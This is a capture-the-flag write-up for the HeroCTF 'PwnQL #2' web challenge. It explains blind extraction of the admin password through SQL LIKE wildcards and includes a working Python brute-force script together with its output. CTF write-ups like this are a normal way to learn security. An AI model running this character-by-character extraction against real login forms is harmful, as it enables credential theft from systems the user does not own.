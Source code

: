 # PwnQL #2

### Category

Web

### Description

Extract the *admin*'s password from the database.

URL : http://chall1.heroctf.fr:8080 (same URL than before)

Format : **Hero{password}**<br>
Author : **xanhacks**

### Write up

So, here we are with the same vulnerability that the first PwnQL, but we need to extract the admin's password.

The goal here is to find the password according to the server response.

```
Example :

password : a% -> login error
password : b% -> login error
password : c% -> login error
password : d% -> login success

The admin's password starts with the letter 'd'.
```

Let's make a python to script which do the job for us.

```python
#!/usr/bin/env python3
from string import printable
from requests import post

URL = "http://challs.heroctf.fr:8080/index.php"

charset = printable.replace("_", "").replace("%", "")

print("flag : ", end="", flush=True)
flag = ""
for _ in range(32):
    for char in charset:
        data = {
            "username": "admin",
            "password": flag + char.strip() + "%"
        }

        req = post(URL, data=data)
    
        if "flag" in req.text:
            print(char, end="", flush=True)
            flag += char
            break
```

Execution :

```shell
$ python3 solve.py
flag : s3cur3p@ss
```

### Flag

Hero{s3cur3p@ss}
